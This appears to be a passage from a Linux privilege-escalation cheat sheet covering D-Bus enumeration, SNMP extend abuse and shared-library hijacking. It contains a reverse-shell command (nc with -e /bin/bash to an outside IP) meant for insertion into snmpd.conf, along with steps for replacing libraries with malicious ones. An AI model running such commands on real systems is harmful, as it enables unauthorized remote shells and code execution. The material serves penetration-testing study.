 ```bash
busctl list # List D-Bus interfaces
busctl status INTERFACE
busctl tree INTERFACE # Get Interfaces of the service object
busctl introspect INTERFACE SERVICE_OBJECT # Get methods of the interface
```

### SNMP

If you have a SNMP community with write permissions we can archive code execution by abusing the **NET-SNMP-EXTEND-MIB extension**

The Net-SNMP Agent provides an extension MIB (NET-SNMP-EXTEND-MIB) that **can be used to query arbitrary shell scripts**. To specify the shell script to run, use the extend directive in the /etc/snmp/snmpd.conf file. Once defined, the Agent will provide the exit code and any output of the command over SNMP.

In order to **extend** you in order to get a remote shell, you need to add the following to the /etc/snmp/snmpd.conf file:
extend shell /bin/nc 192.168.0.1 4444 -e /bin/bash

### Shared library

A **shared library** or **shared object** is a file that is intended to be **shared** by executable files and further shared object files.

Linux shared libraries combined with weak file permissions can be used to execute arbitrary code and compromise Linux system.

Within Linux, here below is the order where the O.S. searches for librairies:

1. Any directories specified by rpath-link options (directories specified by rpath-link options are only effective at link time)
2. Any directories specified by –rpath options (directories specified by rpath options are included in the executable and used at runtime)
3. LD_RUN_PATH
4. LD_LIBRARY_PATH
5. Directories in the DT_RUNPATH or DT_RPATH. (DT_RPATH entries are ignored if DT_RUNPATH entries exist)
6. /lib and /usr/lib
7. Directories within /etc/ld.so.conf

If we can replace a shared library with a malicious one, thenwhen the application runs, it will load the malicious code and run it with the executing owner’s permissions.

Here below is a nice diagram from [contextis.com](https://www.contextis.com/en/blog/linux-privilege-escalation-via-dynamically-linked-shared-object-library) which shows how to test that

![Dynamic Linked Shared Object Library Diagram](Linux_Privilege_Escalation_via_Dynamically_Linked_Shared_Object_Library02.png)

```bash
# 1. Check if the binary is looking for shared libraries that we could exploit
ldd BINARY
# 2. Check if the binary has been compiled with -rpath
objdump -x BINARY | grep RPATH
# 3. Display both $LD_LIBRARY_PATH and LD_RUN_PATH environment variable
echo $LD_LIBRARY_PATH
echo $LD_RUN_PATH
# 4. Display the LD_RUN_PATH environment variable
objdump -x PATH/BINARY | grep RUNPATH
readelf -d PATH/BINARY | head -20
chrpath -l PATH/BINARY
# 5. Display the content for both /lib and /usr/lib
ls /lib
ls /usr/lib
# 6. Display the content of /etc/ld.so.conf
cat /etc/ld.so.conf
# 7. Display if there are any missing libraries
```